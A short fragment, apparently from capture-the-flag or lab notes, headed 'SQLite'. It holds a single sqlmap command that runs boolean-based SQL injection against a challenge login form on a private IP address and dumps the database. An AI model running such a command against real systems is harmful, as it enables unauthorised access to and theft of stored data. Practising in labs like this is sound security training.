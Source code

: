 # SQLite

`sqlmap -u http://10.10.42.43:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump`
